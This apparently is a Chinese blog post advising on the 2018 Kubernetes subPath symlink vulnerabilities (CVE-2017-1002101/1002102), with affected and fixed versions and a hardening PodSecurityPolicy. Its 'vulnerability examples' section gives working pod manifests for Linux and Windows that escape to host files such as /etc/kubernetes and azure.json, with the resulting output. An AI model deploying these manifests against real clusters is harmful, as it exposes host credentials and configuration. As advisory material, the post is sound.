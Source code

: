 ```yaml
---
layout: post
title: Kubernetes 任意文件访问漏洞
date: 2018-03-21 20:17:18
tags: kubernetes
---
```


前段时间 Kubernetes 发布了一系列的安全更新，修复了一个因 subpath 处理不当导致的任意文件访问漏洞（[CVE-2017-1002101](https://github.com/kubernetes/kubernetes/issues/60814)和 [CVE-2017-1002102](https://github.com/kubernetes/kubernetes/issues/60814)）。受该漏洞影响的版本包括

- Kubernetes 1.3.x-1.6.x
- Kubernetes 1.7.0-1.7.13
- Kubernetes 1.8.0-1.8.8
- Kubernetes 1.9.0-1.9.3

建议所有使用 Kubernetes 的生产用户更新到修复版本

- v1.7.14（ [#61047](https://github.com/kubernetes/kubernetes/pull/61047)）
- v1.8.9 （[#61046](https://github.com/kubernetes/kubernetes/pull/61046)）
- v1.9.5 （[#61045](https://github.com/kubernetes/kubernetes/pull/61045) [#61080](https://github.com/kubernetes/kubernetes/pull/61080)，其中 v1.9.4 存在 subPath 无法在 Secret 等 Volume 中使用的问题，建议直接跳过该版本）
- v1.10（将在未来几天发布）

除了升级集群版本之外，建议使用 PodSecurityPolicy 禁止 hostPath 存储卷，如

```yaml
apiVersion: extensions/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default'
    apparmor.security.beta.kubernetes.io/allowedProfileNames: 'runtime/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'docker/default'
    apparmor.security.beta.kubernetes.io/defaultProfileName:  'runtime/default'
spec:
  privileged: false
  # Required to prevent escalations to root.
  allowPrivilegeEscalation: false
  # This is redundant with non-root + disallow privilege escalation,
  # but we can provide it for defense in depth.
  requiredDropCapabilities:
    - ALL
  # Allow core volume types.
  volumes:
    - 'configMap'
    - 'emptyDir'
    - 'projected'
    - 'secret'
    - 'downwardAPI'
    # Assume that persistentVolumes set up by the cluster admin are safe to use.
    - 'persistentVolumeClaim'
  hostNetwork: false
  hostIPC: false
  hostPID: false
  runAsUser:
    # Require the container to run without root privileges.
    rule: 'MustRunAsNonRoot'
  seLinux:
    # This policy assumes the nodes are using AppArmor rather than SELinux.
    rule: 'RunAsAny'
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  readOnlyRootFilesystem: false
```

## 漏洞示例

### Linux

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: subpath
spec:
  initContainers:
  - name: symlink
    image: "alpine"
    command: ['ln', '-s', '/etc/kubernetes', '/data/vol']
    volumeMounts:
    - name: volume01
      mountPath: /data/
  containers:
  - name: sh
    image: "alpine"
    command: ["sh"]
    stdin: true
    tty: true
    volumeMounts:
    - name: volume01
      subPath: vol
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath ls /test
azure.json     certs          manifests      volumeplugins
```

### Windows

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```sh
apiVersion: v1
kind: Pod
metadata:
  name: subpath-win
spec:
  initContainers:
  - name: symlink
    image: microsoft/iis
    command:
    - cmd.exe
    - /c
    - mklink /J c:\data\kubernetes c:\k
    volumeMounts:
    - name: volume01
      mountPath: /data
  containers:
  - name: cmd
    image: microsoft/iis
    volumeMounts:
    - name: volume01
      subPath: kubernetes
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
  nodeSelector:
    beta.kubernetes.io/os: windows
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath-win powershell ls /test

    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/13/2018   8:13 AM                cni
d-----         3/7/2018   4:43 AM                volumeplugins
-a----         3/7/2018   4:43 AM            635 azure.json
-a----         3/7/2018   4:43 AM           9446 config
```

